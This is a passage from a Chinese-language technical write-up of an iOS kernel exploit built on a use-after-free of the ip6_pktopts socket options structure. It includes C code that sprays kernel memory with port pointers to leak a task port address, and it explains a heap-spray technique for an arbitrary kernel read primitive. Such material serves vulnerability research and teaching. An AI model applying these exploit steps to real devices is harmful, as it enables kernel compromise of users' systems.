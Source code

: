 结构体`ip6_pktopts`的大小是`192`，我没找到对应的头文件来导入这个结构体，笨办法把整个结构体拷贝出来了，然后调用函数`sizeof()`来计算，这里根据结构体的成员分布，选择了`ip6po_minmtu`和`ip6po_prefer_tempaddr`进行组合，同时增加了内核指针特征进行判断

```c
uint64_t find_port_via_uaf(mach_port_t port, int disposition) {
    int sock = get_socket_with_dangling_options();
    for (int i = 0; i < 0x10000; i++) {
        mach_port_t p = fill_kalloc_with_port_pointer(port, 192/sizeof(uint64_t), MACH_MSG_TYPE_COPY_SEND);
        int mtu;
        int pref;
        get_minmtu(sock, &mtu); // this is like doing rk32(options + 180);
        get_prefertempaddr(sock, &pref); // this like rk32(options + 184);
        uint64_t ptr = (((uint64_t)mtu << 32) & 0xffffffff00000000) | ((uint64_t)pref & 0x00000000ffffffff);
        if (mtu >= 0xffffff00 && mtu != 0xffffffff && pref != 0xdeadbeef) {
            mach_port_destroy(mach_task_self(), p);
            close(sock);
            return ptr;
        }
        mach_port_destroy(mach_task_self(), p);
    }
    close(sock);
    return 0;
}
```

## 5. 泄露IPC_SPACE内核地址

在泄露`Task Port`内核态地址的时候，我们利用的是传输Port过程中内核自动将其转换为内核态地址的机制往可控的内存里填充数据，而想要泄露内核任意地址上的数据，就需要使用更加稳定的方式实现原语

首先来看结构体`ip6_pktopts`，现在有一个指针指向这一片已经释放掉的内核空间，我们通过某些方式可以让这片内核空间写上我们构造的数据，那么就有几个问题需要解决

1.  怎么申请到这片内存并将数据写进去？
2.  怎么利用写进去的数据实现内核任意地址读原语？

```c
struct	ip6_pktopts {
	struct	mbuf *ip6po_m;	/* Pointer to mbuf storing the data */
	int	ip6po_hlim;	/* Hoplimit for outgoing packets */
	struct	in6_pktinfo *ip6po_pktinfo;
	struct	ip6po_nhinfo ip6po_nhinfo;
	struct	ip6_hbh *ip6po_hbh; /* Hop-by-Hop options header */
	struct	ip6_dest *ip6po_dest1;
	struct	ip6po_rhinfo ip6po_rhinfo;
	struct	ip6_dest *ip6po_dest2;
	int	ip6po_tclass;	/* traffic class */
	int	ip6po_minmtu;  /* fragment vs PMTU discovery policy */
	int	ip6po_prefer_tempaddr;
	int ip6po_flags;
};
```

第二个问题比较好解决，我们可以看到结构体`ip6_pktopts`有好几个结构体类型成员，比如结构体`ip6po_pktinfo`，那么我们就可以把这个结构体成员所在偏移设置为我们要泄露数据的地址，设置整型变量`ip6po_minmtu`为一个特定值，然后堆喷这个构造好的数据到内存里，利用函数`getsockopt()`读漏洞Socket的`ip6po_minmtu`是否为我们标记的特定值
